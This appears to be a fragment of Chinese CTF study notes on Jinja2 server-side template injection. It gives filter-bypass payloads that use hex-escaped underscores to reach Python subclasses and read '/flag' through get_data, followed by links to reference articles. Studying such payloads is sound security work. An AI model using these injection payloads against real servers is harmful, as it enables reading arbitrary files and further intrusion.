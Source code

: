 ### _ +. +'

```php
{{"".__class__}}
{{""["\\x5f\\x5fclass\\x5f\\x5f"]}}
 
{{""["\\x5f\\x5fclass\\x5f\\x5f"]["\\x5F\\x5Fbases\\x5F\\x5F"][0]["\\x5F\\x5Fsubclasses\\x5F\\x5F"]()[91]["get\\x5Fdata"](0, "/flag")}}
#也就是
{{"".__class__.__bases__[0].__subclasses__()[91].get_data(0,"/flag")}}
```





# 参考文章

https://xz.aliyun.com/t/7746

https://xz.aliyun.com/t/9584

https://www.freebuf.com/articles/network/258136.html

https://hoad-sc.blog.csdn.net/article/details/113778233 

https://xz.aliyun.com/t/6885 

https://www.freebuf.com/articles/web/264088.html

http://h0cksr.xyz/archives/340

